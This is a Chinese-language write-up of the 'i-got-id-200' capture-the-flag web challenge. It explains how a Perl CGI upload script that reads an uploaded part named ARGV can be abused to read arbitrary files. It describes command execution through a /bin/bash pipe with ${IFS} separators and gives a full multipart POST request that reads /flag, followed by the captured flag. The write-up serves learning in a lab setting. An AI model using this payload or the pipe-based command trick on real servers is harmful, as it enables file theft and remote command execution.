

# i-got-id-200

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=067955d8-5edc-41b7-90e2-5454d999786c_2&task_category_id=3)

好家伙还有perl。

网站打开只有三个地方能点。Hello World部分是静态的，不太可能有漏洞。form部分会把输入的内容套上一个模版原封不动输出，而且还有xss漏洞。但是是自我xss，缺少更详细的信息完全没用。最后一个就有意思了，Files，经典文件上传。

其实也不算经典，因为网页是用perl语言写的，从.pl后缀名看出。这回不只是知识盲区了，perl我根本就没见过。所以我找了[wp](https://blog.csdn.net/hxhxhxhxx/article/details/107904281)，没事下亿次我就能做出来了。

需要知道的知识是perl语言里的[ARGV](https://www.cnblogs.com/f-ck-need-u/p/9557041.html)。@ARGV表示命令行参数数组，比如你在命令行执行perl脚本。

- ./test.plx a b c

那么@ARGV这个数组里就会依次存储a，b，c，拿python类比就是@ARGV=['a','b','c']。知道ARGV还不够，大佬们甚至在看到perl文件上传点的时候就猜出了后台代码。

```perl
use strict;
use warnings; 
use CGI;
my $cgi= CGI->new;
if ( $cgi->upload( 'file' ) ) { 
    my $file= $cgi->param( 'file' );
     while ( <$file> ) { print "$_"; }
} 
```

更离谱的是猜对了。来了解一下perl cgi相关函数的作用。

- param
    > 用于获取传入的参数(get与post方法)，像：cgi.psp?a=1&b=2，来取得并处理。可以使用Dump方法将具体的参数打印到页面上

- upload
    > 用于处理文件上传的功能函数，需要为其传入'form'表单中所定义的'\<input type="file" name="alertsfile" />'，'name'的值

举个自己理解的例子。

- Content-Disposition: form-data; name="file"; filename="0.png"
<Br>Content-Type: image/png

假如文件上传时上传了一个叫0.png的图片，那么param( 'file' )得到的就是filename里面的内容。<$file>获取filename文件句柄的内容。[<>](https://www.cnblogs.com/f-ck-need-u/p/9511892.html)是perl里面的一个操作符。正常来说会把上传的文件内容原封不动输出上来。

如果我们抓包把filename这个字段去除，$file里面会是什么呢？比如我们随便传个图片，抓包后改成下面这样。


因为图片内容太长了，太难删了，所以在上面再加一个------WebKitFormBoundaryrn2mnXAmOE7A8hW1也不是不行，反正只会读取一个。只是这个新增的没有filename，内容为ARGV。根据我的猜测，现在$file里面就是ARGV了。ARGV的句柄上面提到过，是传入的参数。如果这时我们在get传入想要读取的文件，服务器就会原封不动地打印出来。想执行命令也是可以的，毕竟linux一切皆文件，/bin/bash同理。



%20是空格，-c指定要执行的命令，后面再传入的参数会被当作是要执行的命令的参数，但是分割要用\${IFS}。IFS一般代表空格，\${}读取变量的值，也就是打出空格。｜是管道运算符，用于将命令的执行结果劫持到当前网页，利用Perl open()函数打开的管道。如果不劫持是不会有输出的，因为/bin/bash的执行结果不算文件，会被放在缓冲区里。管道符可以将输出重定向到任意位置，这里定向到open打开的管道，也就是当前网页。读取flag的payload如下:

```
POST /cgi-bin/file.pl?cat+/flag HTTP/1.1
Host: 3911f312-3396-421b-9136-a37835f4d9a2.node4.buuoj.cn:81
Content-Length: 2020
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://3911f312-3396-421b-9136-a37835f4d9a2.node4.buuoj.cn:81
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymleITpyHyaAWDDND
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://3911f312-3396-421b-9136-a37835f4d9a2.node4.buuoj.cn:81/cgi-bin/file.pl
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: __gads=ID=f00405ef7dd07c2b-22e4cea8d3d90015:T=1673138658:RT=1673138658:S=ALNI_MaIBeJLfEQrPtxHvF5d_RvawAx58A; __gpi=UID=00000926669aa6ee:T=1673138658:RT=1673138658:S=ALNI_MaoW9zXWbCCtVgtccyGDCJIpcPeew
Connection: close

------WebKitFormBoundarymleITpyHyaAWDDND
Content-Disposition: form-data; name="file";

ARGV
------WebKitFormBoundarymleITpyHyaAWDDND
Content-Disposition: form-data; name="file"; filename="enc.py"
Content-Type: text/x-python-script

whatever
------WebKitFormBoundarymleITpyHyaAWDDND
Content-Disposition: form-data; name="Submit!"

Submit!
------WebKitFormBoundarymleITpyHyaAWDDND--
```

## Flag
  > cyberpeace{c610a0672df6b2e0a7d47ec186b5c0ac}